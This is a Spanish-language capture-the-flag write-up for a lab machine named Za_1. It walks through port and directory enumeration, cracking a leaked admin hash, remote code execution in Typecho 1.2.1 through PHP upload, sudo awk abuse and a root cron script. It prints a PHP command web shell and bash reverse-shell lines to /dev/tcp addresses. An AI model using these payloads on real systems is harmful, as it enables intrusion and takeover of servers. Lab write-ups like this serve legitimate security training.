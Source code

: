 ```php 
##########################################################################################################
#
# CTF a la Máquina Za_1
#
# DATE: 25/Agosto/2023
#
# Buscar usuario  [ flag{} ] y root [ flag{} ]
#
#########################################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $sudo arp-scan -I enp0s3 192.168.0.0/24 -> 192.168.0.92
```

# Escaneo y Enumeración

* Veo que puertos tiene abiertos

```php 
nmap -sVC -T5 -n -p- 192.168.0.92
```
* Obtengo los siguientes puertos abiertos, 22 SSH, 80 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36325b78d0f43c9f051aa713913e38c1 (RSA)
|   256 7207821526ce1334e842cfdadee2a714 (ECDSA)
|_  256 fc9c664686601a2932c61fecb247b874 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Typecho 1.2.1
|_http-title: Zacarx's blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* Aquí tengo algo que me llama la atención y que luego veré detenidadmente **Typecho 1.2.1**
  
* Realizo búsqueda de directorios y ficheros

```php
gobuster dir -u "http://192.168.0.92/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200 --no-error
```

* Obtengo

```php
===============================================================
2023/08/25 16:44:38 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://192.168.0.92/admin/]
/install              (Status: 301) [Size: 314] [--> http://192.168.0.92/install/]
/install.php          (Status: 302) [Size: 0] [--> http://192.168.0.92/]          
/index.php            (Status: 200) [Size: 6806]                                  
/sql                  (Status: 301) [Size: 310] [--> http://192.168.0.92/sql/]    
/LICENSE.txt          (Status: 200) [Size: 14974]                                 
/var                  (Status: 301) [Size: 310] [--> http://192.168.0.92/var/]    
/usr                  (Status: 301) [Size: 310] [--> http://192.168.0.92/usr/]
```
* He intentado, viendo que algún enlace apuntaba a un nombre `za1.hmv`, ponerlo en `/etc/hosts`. Cambia el aspecto.

* No he obtenido resultados con una búsqueda **vhost**

```php
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100 -u za1.hmv
```

* Tengo un directorio de **admin** donde pide usuario y contraseña. Luego le haré un **sqlmap**

![web](./92-1.png) 

* Analizando entre los directorios accesibles, obtengo ficheros de Base de Datos

```php
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:24:15 2023  64c0dcaf26f51.db
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:26:19 2023  new.sql
.rw-r--r-- jl jl 668 B  Fri Aug 25 17:34:25 2023  req.txt
.rw-r--r-- jl jl 100 KB Fri Aug 25 17:26:22 2023  sercet.sql
```
>El fichero `req.txt` me lo he creado para el formulario de `/admin` pero **sqlmap** dice que no tiene parámetros vulnerables

* Usuarios de la base de datos, vistos con el visor [https://sqliteviewer.app/]

![web](./92-0.png)

```php
$P$BhtuFbhEVoGBElFj8n2HXUwtq5qiMR. - zacarx - zacarx@qq.com
$P$BERw7FPX6NWOVdTHpxON5aaj8VGMFs0 - admin  - admin@11.com
```

* De entre esos dos hashes puedo crackear el de **admin** con *John*

```php
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
❯ john --show admin.hash
?:123456
```
>Lo pruebo en el formulario de `/admin` y logro acceder

![web](./92-3.png)


# Acceso

* Como tengo un usuario y `Typecho 1.2.1` tiene una vulnerabilidad **ver [https://github.com/m4l4c4t3/typecho-v1.2.1-RCE]**, voy a explotarla.

* Nota: La POC de esa vulnerabilidad la he rescatado del sitio original porque, al menos en la actualidad, da un **404 status** y a mi me ha servido bastante.

1. Tras hacer login con esas credenciales, pincho en **configuración** y luego en **básico**

![web](./92-4.png)

2. Al final del formulario, activo la casilla de **otros formatos** y pongo `php.` para que pueda subir ficheros *php*

![web](./92-5.png)

3. Luego me voy a la sección para **escribir un artículo**

![web](./92-6.png)

4. En la parte derecha, pincho en **apéndice** (adjunto) y subo mi fichero **php**, en este caso he subido un simple phpinfo() para tener la POC

![web](./92-7.png)

5. Cuando lo subo, me dice la URL donde hace el upload

![web](./92-8.png) 

6. Apunto el navegador allí y veo que funciona la POC

![web](./92-9.png) 

* Ahora en vez de ese fichero voy a subir una *shell* en PHP [https://www.revshells.com/]

1. Subo primero un php para que me ejecute comandos

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

2. Ya puedo ejecutar comandos, lo compruebo

![web](./92-10.png)

3. Y ahora ejecuto la shell (me apoyo en [https://gchq.github.io/CyberChef/], para urlencoded)

```php
/bin/bash -c "bash -i >& /dev/tcp/192.168.0.79/8888 0>&1"
```
![web](./92-11.png)


## Pivotar a otro usuario

* Revisando el sistema, tengo que existe un usuario `za_1`

* Ejecuto `sudo -l` y obtengo

```php
User www-data may run the following commands on za_1:
    (za_1) NOPASSWD: /usr/bin/awk
```
* En **GTFObins** [https://gtfobins.github.io/gtfobins/awk/#suid] tengo un modo de ganar usuario con ese comando

```php
sudo -u za_1 /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ whoami
whoami
za_1
```
* Y puedo obtener su bandera

```console
flag{}
```

# Elevación a Root

* Como tiene *SSH*, pongo en su fichero de *authorized_keys* mi clave pública y ya puedo acceder más cómodamente por *SSH*
  
* Observo que en directorio home de `za_1`, hay un directorio oculto `/.root/` y contiene un script **back.sh** editable

```php
#!/bin/bash


cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql

bash -i >&/dev/tcp/10.0.2.18/999 0>&1
```

* Con **pspy** obtengo que se ejecuta periódicamente el script, por root 😋

```php
2023/08/27 11:04:01 CMD: UID=0     PID=2610   | /bin/bash /home/za_1/.root/back.sh 
2023/08/27 11:04:01 CMD: UID=0     PID=2609   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh 
2023/08/27 11:04:01 CMD: UID=0     PID=2608   | /usr/sbin/CRON -f 
2023/08/27 11:04:01 CMD: UID=0     PID=2611   | cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql 
```
* Voy a cambiar la IP (realmente aquí podría hacer cualquier maldad que se me ocurriera), por la de mi máquina de ataque y pongo un netcat a la escucha en el puerto 4444 y espero...

```php
root@za_1:~# whoami
whoami
root
root@za_1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@za_1:~#
```

* Obtengo bandera

```console
flag{}
``` 

